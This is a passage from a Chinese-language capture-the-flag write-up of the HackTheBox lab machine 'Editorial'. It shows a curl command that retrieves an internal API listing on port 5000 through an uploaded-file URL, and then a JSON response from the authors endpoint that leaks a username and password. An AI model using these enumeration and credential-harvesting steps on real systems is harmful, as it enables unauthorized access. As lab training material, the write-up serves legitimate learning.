 於是去訪問 5000 port 會拿到一個 api 檔案
![image](https://hackmd.io/_uploads/rJytgDZHJx.png)

用 curl 搭配 jq 比較好看
```
curl http://editorial.htb/static/uploads/8c678572-de07-439c-aaaf-50d9ecb15053 | jq . | tee 1234.txt
```

```javascript
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
用一樣的方式檢查到 `/api/latest/metadata/messages/authors` 時得到一個有帳號密碼的回傳資料
```
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.
  Your login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.
```